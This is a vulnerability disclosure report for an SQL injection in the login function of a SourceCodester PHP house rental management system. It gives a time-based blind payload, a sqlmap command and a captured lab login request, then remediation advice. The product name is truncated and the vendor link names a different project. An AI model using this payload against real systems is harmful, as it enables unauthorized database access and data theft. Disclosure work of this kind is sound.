 # SourceCodester Best house rental management system project in php 1.0 SQL Injection

## NAME OF AFFECTED PRODUCT

- est house rental management system project in php

### Vendor Homepage

- https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html

## AFFECTED AND/OR FIXED VERSION

### submitter

- y3z1f4n

### Vulnerable File

- admin_class.php

### Version

- V1.0

### Software Link

- [Downloading Best house rental management system project in php Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+)

## PROBLEM TYPE

### Vulnerable Type

- SQL Injection

### Root Cause

- A SQL injection vulnerability was found in the "admin_class.php" file of the "Best house rental management system project in php" project. The cause of the issue is that an attacker injects malicious code from the parameter "username" and uses it directly for SQL queries to the database without verification. This allows an attacker to construct input values, thereby manipulating SQL queries and performing unauthorized operations.

![image-20240616173045573](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20240616173045573.png)

### Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, full system control and even service interruption, posing a serious threat to system security and business continuity.

## DESCRIPTION

- Due to insufficient user input validation for the "username" parameter, a serious SQL injection vulnerability was found in the login function of "Best house rental management system project in php", allowing attackers to inject malicious SQL queries. As a result, an attacker can gain unauthorized access to the database without logging in, modify or delete data and access sensitive information. Immediate remediation is required to ensure system security and protect data integrity.

## Vulnerability details and POC

### Vulnerability type

- time-based blind

### Vulnerability location

- 'username' parameter in "admin_class.php"

### Payload

- username=admin' AND (SELECT 5426 FROM (SELECT(SLEEP(5)))ABPy) AND 'wtFY'='wtFY&password=pass

We can see that the page response time is 5s，there is time-based blind.

![image-20240616174420199](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20240616174420199.png)

The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```bash
sqlmap -r source.txt -p username,password --dbs --batch
```

The content of source.txt:

```bash
POST /rental/ajax.php?action=login HTTP/1.1
Host: 192.168.20.156
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 28
Origin: http://192.168.20.156
Connection: close
Referer: http://192.168.20.156/rental/login.php
Cookie: PHPSESSID=ovnjt8tf7so1vsv86582r6ee7v
Priority: u=1

username=admin&password=pass
```

![image-20240616175247067](C:\Users\DELL\AppData\Roaming\Typora\typora-user-images\image-20240616175247067.png)



## Suggested repair

1. **Use prepared statements and parameter binding:**
   Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:**
   Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:**
   Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.